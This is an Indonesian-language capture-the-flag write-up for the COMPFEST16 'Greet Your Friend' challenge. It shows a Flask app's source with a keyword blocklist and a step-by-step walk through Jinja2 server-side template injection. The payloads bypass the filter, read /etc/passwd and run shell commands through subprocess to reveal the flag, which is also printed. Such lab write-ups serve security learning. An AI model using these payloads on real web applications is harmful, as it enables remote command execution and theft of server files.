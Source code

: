 #CTF #COMPFESTHackingClass #COMPFEST16 #WebExploitation #SSTI #WriteUp  

>**Flag:** `COMPFEST16{b3St_fw3nDS_for3v3R_dcb3980048}`

![compfest16-hackingclass-greetyourfriend11.png](./img/compfest16-hackingclass-greetyourfriend11.png)

### Write Up:
Tampilan awal website ketika dibuka.

![compfest16-hackingclass-greetyourfriend00.png](./img/compfest16-hackingclass-greetyourfriend00.png)

Jika kita isi input, maka akan berisi kalimat sambutan dan hasil input yang di generate secara random pada variabel `GREETINGS` pada source code yang diberikan.

![compfest16-hackingclass-greetyourfriend01.png](./img/compfest16-hackingclass-greetyourfriend01.png)

Berikut adalah source code yang diberikan pada soal.
```python
from flask import Flask, render_template, request, render_template_string
import random

app = Flask(__name__)
@app.route("/", methods=["GET"])

def home():
    if request.method == "GET":
        GREETINGS = ["Hope you have a wonderful day!",
                     "Wishing you a fantastic day ahead!",
                     "May your day be filled with joy and positivity!",
                     "Sending you positive energy for a great day!"
                     "COMPFEST16{placeholder}"]

        if request.args.get('name') :
            if all(c not in request.args.get('name') for c in ['%', 'class', 'mro', 'attr', 'self', 'read']):
                result = render_template_string(f"Hello {request.args.get('name')}! {GREETINGS[random.randint(0, len(GREETINGS)-2)]}")
                return render_template("index.html", **{"data": result})
            else:
                return render_template("index.html", **{"data": "nu uh >:("})
        return render_template("index.html")

if __name__ == "__main__":
	app.run("0.0.0.0", port=8080, debug=True)
```

Informasi yang bisa kita dapatkan dari source code diatas adalah input yang kita masukkan tidak boleh mengandung karakter `%`, `class`, `mro`, `attr`, `self`, `read`. Hal ini sebagai bentuk pencegahan dari kerentanan website berupa [[-Server Side Template Injection (SSTI)]].

Hal pertama yang harus kita identifikasi adalah jenis kerentanan SSTI apa yang ada pada website ini yang bisa dilihat dari gambar berikut. Setiap hasil dari operasi yang benar akan mengikuti garis hijau dan jika hasil operasi salah akan mengikuti garis merah.

![ssticheck.png](./img/ssticheck.png)

Mulai cek dari `{7 * 7}`

![compfest16-hackingclass-greetyourfriend02.png](./img/compfest16-hackingclass-greetyourfriend02.png)

Hasil yang keluar bukanlah `49` melainkan `{7 * 7}`, jadi kita bisa lanjutkan dengan `{{7 * 7}}`.

![compfest16-hackingclass-greetyourfriend03.png](./img/compfest16-hackingclass-greetyourfriend03.png)

Hasil yang keluar adalah `49`, kita bisa melanjutkannya dengan mengecek `{{7*'7'}}`

![compfest16-hackingclass-greetyourfriend04.png](./img/compfest16-hackingclass-greetyourfriend04.png)

Dengan ini kita mengidentifikasi jenis dari SSTI ini antara Jinja2 dan Twig.

Cari payload yang mendukung untuk mendapatkan flag. Disini saya menggunakan [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Kita akan berusaha untuk dapat mengakses directory dari server untuk menemukan flag.

Kita akan menggunakan `__globals__` untuk mengakses dictionary dari variabel global dan `__builtins__` untuk dapat menggunakan fungsi-fungsi built-in python.

Awalnya saya mencoba untuk mengubah karakter yang tidak boleh digunakan menjadi hex dan memasukkanya ke dalam payload.
```
{{0x730x650x6c0x66.__init__.__globals__.__builtins__.__import__('os').popen('id').0x720x650x610x64()}}
```
yang mempresentasikan
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

Tetapi, malah mendapati error. Namun, dari sini kita bisa mendapatkan jawaban bila jenis SSTI nya adalah Jinja2.
![compfest16-hackingclass-greetyourfriend05.png](./img/compfest16-hackingclass-greetyourfriend05.png)

Setelah membaca payload lebih lanjut di Payloads All The Things, saya menemukan payload yang hampir tidak mengandung karakter yang dilarang pada website diatas.
```
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```
Disini masih terdapat karakter `read` yang dilarang pada website. Dengan memanfaatkan [ChatGPT](https://chat.openai.com) untuk memberikan alternatif dari payload diatas untuk mengakses directory server.

Berikut adalah percobaan pertama untuk mengetes apakah payload dapat berjalan atau error.
```
{{get_flashed_messages.__globals__.__builtins__.get('id',' ')}}
```

![compfest16-hackingclass-greetyourfriend06.png](./img/compfest16-hackingclass-greetyourfriend06.png)
Mantap, payload tidak error dan mengeluarkan output `&lt;built-in function id&gt;` atau `<built-in function id>`. Selanjutnya kita hanya perlu mencari command yang dapat menampilkan isi directory. Dalam hal ini, saya masih memanfaatkan ChatGPT untuk memberikan alternatif.

Percobaan pertama adalah berikut:
```
{{get_flashed_messages.__globals__.__builtins__.exec('ls')}}
```
Tetapi gagal atau error. 

Pada percobaan kedua, saya berhasil menampilkan isi dari directory dengan menambahkan `__import__()` dan `listdir()`
```
{{get_flashed_messages.__globals__.__builtins__.__import__('os').listdir('/')}}
```
![compfest16-hackingclass-greetyourfriend07.png](./img/compfest16-hackingclass-greetyourfriend07.png)
Karena `listdir()` hanya menampilkan isi dari directory dan tidak bisa membuka suatu file, saya mencari potongan payload baru.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('ls',shell=True)}}
```
Menurut Chat GPT,
- `get_flashed_messages` adalah sebuah fungsi dalam Flask yang digunakan untuk mengambil pesan yang disimpan sementara (flashed messages). Dalam konteks ini, fungsi ini digunakan untuk mengakses atribut `__globals__` dari fungsi tersebut.\
- `__globals__` adalah atribut dari fungsi Python yang mengembalikan kamus (dictionary) dari semua variabel global yang tersedia.
- `__builtins__` berisi semua fungsi bawaan (built-in) dari Python seperti print, len, dll.
- `__import__('subprocess')` akan mengimpor modul `subprocess`, yang digunakan untuk menjalankan perintah shell di sistem operasi. Modul inilah yang menjadi kunci kita pada kali ini.
- `subprocess.check_output('<cmd>', shell=True)` adalah sebuah metode dalam modul `subprocess` yang menjalankan perintah shell yang diberikan dan mengembalikannya menjadi string dan `shell=True` memungkinkan perintah ini dijalankan dalam shell, yang memungkinkan penggunaan perintah.

![compfest16-hackingclass-greetyourfriend08.png](./img/compfest16-hackingclass-greetyourfriend08.png)
Setelah mencoba membuka dan mencari ke `etc/passwd`, `/` dan `/home`. Saya teringat dengan salah satu isi dari variabel `GREETINGS` pada source code yang telah diberikan mengandung string berikut `"COMPFEST16{placeholder}"`. Jadi kita akan mencoba mengecek `main.py`.

```
{{get_flashed_messages.__globals__.__builtins__.__import__('subprocess').check_output('cat main.py',shell=True)}}
```
![compfest16-hackingclass-greetyourfriend09.png](./img/compfest16-hackingclass-greetyourfriend09.png)

FLAG sudah ditemukan, untuk mempermudah membaca kita bisa menggunakan `cat main.py | grep "COMPFEST16"`.
![compfest16-hackingclass-greetyourfriend10.png](./img/compfest16-hackingclass-greetyourfriend10.png)

